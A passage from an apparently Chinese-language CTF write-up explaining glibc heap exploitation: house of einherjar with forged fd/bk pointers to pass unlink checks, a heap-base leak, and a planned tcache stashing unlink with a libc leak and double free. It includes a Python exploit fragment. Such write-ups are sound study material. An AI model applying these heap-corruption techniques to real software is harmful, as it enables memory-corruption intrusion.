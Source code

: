 7.calloc新的chunk D，此時A與D範圍重疊，達到overlap chunk

但是直接這樣做會噴corrupted double-linked list的錯，因為他會去檢查前面的fake chunk的fd->bk跟bk->fd有沒有指回來，沒有就代表double-linked list壞掉了
```c=
if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");
```
所以在A偽造C之前在放一個假的fd跟bk指到C的開頭，然後C的fd跟bk，就指到假的fd-0x10的位置就可以通過這個檢查
偽造的heap base可以在塞完tcache之後看第一個chunk的bk位置-0x10就可以拿到，因為tcache的key會跟heap base有關(現在才知道XD)

到這邊為止的code如下，總共用了10次create，7次tcache＋2次backward merge+1次guard chunk
```python=
# fill tcache of size 0x100
for i in range(7):
    create(0xF0,'doge') #0-6
    delete(i)
# leak heap base
heap_base = u64(show(0)+b'\x00\x00') - 0x10
print(f"heap base: {hex(heap_base)}")
# start house of einherjar
create(0xF0,'doge') #7
create(0xF0,'doge') #8
# guard chunk
# b90
create(0xE0,'doge') #9

# generate fake chunk, fake prev_size and off by null byte to clear PREV_INUSE bit
edit(7,p64(0)+p64(0)*12+p64(heap_base+0xa20)+p64(heap_base+0xa20)+p64(0)+p64(0x71)+p64(heap_base+0xa00)+p64(heap_base+0xa00)+p64(0)*10+p64(0x70))
# trigger backward merge to get overlap chunk
delete(8)
```

#### tcache stashing unlink
做完house of einherjar之後，已經可以利用A去改C的edit size來做到read不會爆掉的最大長度的heap overflow了，非常強大
要完成tcache stashing unlink，要經過這些過程:
1.該size的tcache有6個chunk
2.smallbin裡面有一個bk被改成tranpoline的chunk
3.tranpoline chunk的fd指向small bin chunk，bk指向global_max_fast-0x10的位置
4.calloc smallbin size的chunk觸發tcache stashing unlink

1很明顯沒什麼問題，要想的是2跟3
#### leak libc
先滿足2跟3的共同需求libc base，C在unsorted bin裡面所以的確有libc base，但問題是沒有C的pointer就不能用show
直接從A蓋到C的fd那邊的話，bk開頭會被插\0，show會讀不到
所以還是直接calloc拿pointer最快，calloc一個0xF0的chunk E拿到pointer後用show剛好就可以讀到bk位置指向unsorted bin的pointer，扣掉offset就是libc base
#### 1
都有pointer了，先把1搞定
次數快不夠用了，很明顯不能再靠create把東西放進tcache
因為有overlap chunk，可以直接改chunk size再delete就會進到對應的tcache
利用chunk A的heap overflow把E的size改成0x91，delete就會進到0x90的tcache
接著chunk A的heap overflow把E的fd跟key改成0，再delete完成double free，做到tcache有6個為止
#### 2
2的部份難點是不能讓tcache滿又要讓smallbin有東西
可以利用unsorted bin在allocate一個chunk的時候會去traverse整個unsorted bin的chunk，把size比allocate size小的chunk丟進smallbin跟largebin的特性來完成
